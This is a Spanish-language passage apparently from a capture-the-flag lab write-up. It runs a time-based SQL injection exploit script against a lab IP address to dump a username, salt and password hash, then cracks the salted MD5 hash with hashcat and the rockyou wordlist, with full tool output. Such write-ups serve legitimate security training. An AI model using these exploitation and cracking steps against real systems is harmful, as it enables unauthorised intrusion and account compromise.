 Ahora le pasamos los argumentos que nos indica el exploit y procedemos a ejecutarlo.

```bash
❯ python3 exploit.py -u http://10.10.169.138/simple/
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

Ya obtuvimos los datos de la inyección SQL basada en tiempo. Ahora necesitamos crackear la contraseña:

```bash
❯ hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-AMD Ryzen 7 PRO 4750G with Radeon Graphics, 5807/5871 MB (2048 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 51

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Early-Skip
* Not-Iterated
* Prepended-Salt
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 68 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
Time.Started.....: Sun Jun 18 15:00:30 2023 (0 secs)
Time.Estimated...: Sun Jun 18 15:00:30 2023 (0 secs)
```